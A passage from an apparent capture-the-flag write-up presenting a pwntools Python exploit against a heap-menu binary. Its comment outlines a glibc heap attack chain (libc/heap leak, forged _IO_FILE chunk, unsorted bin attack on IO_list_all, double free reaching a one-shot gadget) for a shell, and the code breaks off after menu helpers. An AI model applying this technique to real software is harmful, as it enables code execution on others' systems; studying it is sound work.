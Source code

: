 Putting everything together, the following exploit will give us a shell.

## Exploit
{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

'''
1. leak libc + heap
2. craft a "ghost chunk that serves 2 purposes:
    - fake _IO_FILE object
    - fake _IO_strfile object
2a. craft the "ghost chunk" s.t.
    - size is 0x61 (to later place it in smallbin[4])
    - contains a fake "BK" ptr that points to real unsorted_bin chunk
    - conditions to eventually reach: (((_IO_strfile *) fp)->_s._free_buffer) (fp->_wide_data->_IO_buf_base); are satisfied
        1) fp->_mode <= 0
        2) fp->_IO_write_ptr > fp->_IO_write_base
        3) fp->_wide_data->_IO_buf_base
        4) !(fp->_flags2 & _IO_FLAGS2_USER_WBUF)
        5) (((_IO_strfile *) fp)->_s._free_buffer) = one_shot
3. place the "ghost" chunk in unsorted bin
    - overwrite unsorted_bin->TAIL->BK w/ pGhostChunk
    - allocate unsorted_bin->TAIL out of unsorted_bin
4. place the "ghost" chunk into smallbin[4]
    - size of "ghost" chunk must be 0x61
    - "ghost" chunk size fails to satisfy malloc(0x300)
5. perform unsorted bin attack to overwrite IO_list_all w/ &main_arena.top
    - now, IO_list_all->_chain = ghostChunk
6. perform a double-free to trigger memory corruption error and start abort sequence
7. if ghostChunk is forged correctly, following steps are performed:
    - _IO_flush_all_lockp() is called to traverse + close all the FD's
    - _IO_list_all->_chain, which now points to ghostChunk, is checked to close it
    - ghostChunk->vtable, which now points to pIO_wstr_finish-0x18, is used in an attempt to call _IO_OVERFLOW()
    - instead of calling _IO_OVERFLOW(), _IO_wstr_finish(ghostChunk) is called
    - (((_IO_strfile *) fp)->_s._free_buffer), which now points to one_shot, is called :)
8. win!
'''

def alloc(slot):
    r.sendafter("4) free","1")
    r.sendafter("9)",str(slot))

def write(slot, data):
    r.sendafter("4) free","2")
    r.sendafter("9)",str(slot))
    r.send(data)

def printIt(slot):
    r.sendafter("4) free","3")
    r.sendafter("9)",str(slot))
    return r.recvuntil("1)")

def free(slot):
    r.sendafter("4) free","4")
    r.sendafter("9)",str(slot))

def exploit(r):
    ## LIBC + HEAP LEAK
    alloc(0)
    alloc(1)